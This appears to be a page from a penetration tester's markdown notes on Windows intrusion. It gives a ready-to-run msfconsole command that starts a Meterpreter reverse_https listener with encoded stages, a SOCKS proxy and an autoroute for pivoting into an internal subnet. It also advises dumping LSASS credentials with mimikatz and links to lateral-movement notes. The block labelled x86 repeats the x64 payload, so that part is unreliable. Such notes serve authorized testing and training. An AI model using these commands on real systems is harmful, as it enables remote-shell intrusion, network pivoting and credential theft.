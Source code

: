 ```ad-example
title: Meterpreter AutoRoute + Listener

These commands are useful when you are about to compromise a machine and know the subnet where the other target machines are connected. 

You want to run a shellcode runner to connect to your meterpreter listener. Once the connection is established this command will make an autoroute SOCKS5 session, and you will be able to connect to the other machines via proxychains.

> Remember to change the subnet IP address when using these.

*x64*

~~~bash
msfconsole -q -x "use auxiliary/server/socks_proxy; set SRVPORT 1080; set SRVHOST 127.0.0.1; run -j; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set AutoRunScript 'autoroute -s 172.16.231.0/24'; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; run"
~~~

*x86*

~~~bash
msfconsole -q -x "use auxiliary/server/socks_proxy; set SRVPORT 1080; set SRVHOST 127.0.0.1; run -j; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set AutoRunScript 'autoroute -s 172.16.231.0/24'; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; run"
~~~
```

*Screenshots*

___

___

## Credential Access (OS Credential Dumping)

> If you have obtained privileged access to the host, take a moment to dump credentials from LSASS using mimikatz.

*Commands Removed due to AV false positives.*

## Lateral Movement 

```ad-seealso
title:Lateral Movement Techniques
collapse:true 

~~~dataview
list from #lateralmovement 
and #windows
sort file.name asc
~~~
```
